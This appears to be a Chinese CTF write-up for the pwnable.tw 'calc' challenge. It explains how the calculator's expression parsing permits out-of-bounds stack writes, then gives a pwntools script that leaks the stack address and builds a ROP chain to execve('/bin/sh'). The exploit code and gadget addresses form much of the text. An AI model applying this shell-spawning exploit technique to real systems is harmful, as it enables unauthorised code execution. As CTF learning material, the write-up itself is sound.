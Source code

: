 ebp之后接着的就是返回地址，而v1的位置是`$ebp-5A0h`，只要输入"+360+N"（ (360 + 1) * 4 = 1444 = 0x5A4），就能将返回地址的值修改为N

最后思路就是泄露栈地址后将字符串"/bin/sh"写在栈上，通过ROPgadget找到合适的gadget，rop调用`execve("/bin/sh", 0, 0)`拿到shell

但是有两个问题

1. 写在栈上的"/bin/sh"，虽然可以计算偏移拿到地址，但是栈上的的地址都超过了int类型可以表示的最大正数：`0x7fffffff`
2. 程序不能写入0，如果`+0`的话不会写入对应偏移的内存中
3. 在输入"+N+M"进行运算的时候，进行的是`v1[N] += v1[N+1]`的运算，将M保存在v1[N+1]中，将结果保存在v1[N]中，也就是说操作一块四字节的保存整数的内存会影响它的上一块内存（让上一块内存的数据加上该块内存的数据）

后来我的解决方案是

1. 我先对 应该保存sh地址的内存 进行赋值，让这块内存为`0x7fffffff`，再操作下一块内存，赋值下一块内存为 `sh的地址 - 0x7fffffff`，这样 应该保存sh地址的内存 就会加上这个数值，也就等于了`sh的地址`
2. 可以看到上图中，栈中数据有一个地方是连续两个四字节内存都是0的，所以我用很多`ret`gadget不断抬栈，让`pop_edx_ecx_ebx`gadget紧贴着两个0，就能将edx和ecx置零
3. 除了写入sh地址的时候以外，其他操作都从高地址往低地址进行，这样最后修改返回地址的时候会影响到ebp，但是对执行`execve("/bin/sh", 0, 0)`并没有什么影响

exp:

```python
from pwn import *
context.log_level = 'debug'
r = 1
context(arch = 'i386', os = 'linux')
bss = 0x0804A040

if r == 1 :
	s = remote('chall.pwnable.tw',10100)
else:
	s = process('./calc')

#gadget
pop_eax=0x805c34b
pop_edx_ecx_ebx=0x80701d0
int_80=0x8049a21
pop_ebx=0x080481d1
ret=0x080481ba
add_esp=0x080915e8

s.sendlineafter("===\n","+360")
ebp = int(s.recvline()) & 0xffffffff
print("ebp:"+hex(ebp))

#最后的栈上的结构
pd1=[pop_eax,11,ret,ret,ret,ret,add_esp,0x6e69622f,0x0068732f,ret,ret,pop_edx_ecx_ebx]
#0, 0, X
pd2=[pop_ebx,ebp,int_80]


#栈上pd2的布置
#2147483647 = 0x7fffffff
s.sendline("+376+"+str(2147483647))
recv = int(s.recvline()) & 0xffffffff
print(hex(int(recv)))

s.sendline("+377+"+str(ebp-0x7fffffff))
recv = int(s.recvline()) & 0xffffffff
print(hex(int(recv)))

s.sendline("+378")
recv = int(s.recvline()) & 0xffffffff
print("aaa"+hex(int(recv)))
s.sendline("+378-"+str(recv-int_80))

s.sendline("+375+"+str(pop_ebx))
```